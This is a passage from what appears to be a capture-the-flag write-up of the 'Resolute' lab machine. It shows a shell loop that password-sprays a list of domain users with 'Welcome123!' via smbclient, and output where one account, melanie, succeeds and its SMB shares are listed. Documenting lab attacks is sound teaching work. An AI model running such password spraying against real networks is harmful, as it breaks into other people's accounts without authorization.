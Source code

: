 ```
simon
naoki
```

We can do a simple loop through all users and attempt to authenticate with the password `Welcome123!` by using `smbclient`:
```
for i in $(cat users.txt);do echo "[+] $i" && smbclient -L resolute.htb -U $i%"Welcome123!";done
```
```
[+] Administrator
session setup failed: NT_STATUS_LOGON_FAILURE
[+] Guest
session setup failed: NT_STATUS_LOGON_FAILURE
[+] krbtgt
session setup failed: NT_STATUS_LOGON_FAILURE
[+] DefaultAccount
session setup failed: NT_STATUS_LOGON_FAILURE
[+] ryan
session setup failed: NT_STATUS_LOGON_FAILURE
[+] marko
session setup failed: NT_STATUS_LOGON_FAILURE
[+] sunita
session setup failed: NT_STATUS_LOGON_FAILURE
[+] abigail
session setup failed: NT_STATUS_LOGON_FAILURE
[+] marcus
session setup failed: NT_STATUS_LOGON_FAILURE
[+] sally
session setup failed: NT_STATUS_LOGON_FAILURE
[+] fred
session setup failed: NT_STATUS_LOGON_FAILURE
[+] angela
session setup failed: NT_STATUS_LOGON_FAILURE
[+] felicia
session setup failed: NT_STATUS_LOGON_FAILURE
[+] gustavo
session setup failed: NT_STATUS_LOGON_FAILURE
[+] ulf
session setup failed: NT_STATUS_LOGON_FAILURE
[+] stevie
session setup failed: NT_STATUS_LOGON_FAILURE
[+] claire
session setup failed: NT_STATUS_LOGON_FAILURE
[+] paulo
session setup failed: NT_STATUS_LOGON_FAILURE
[+] steve
session setup failed: NT_STATUS_LOGON_FAILURE
[+] annette
session setup failed: NT_STATUS_LOGON_FAILURE
[+] annika
session setup failed: NT_STATUS_LOGON_FAILURE
[+] per
session setup failed: NT_STATUS_LOGON_FAILURE
[+] claude
session setup failed: NT_STATUS_LOGON_FAILURE
[+] melanie

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
```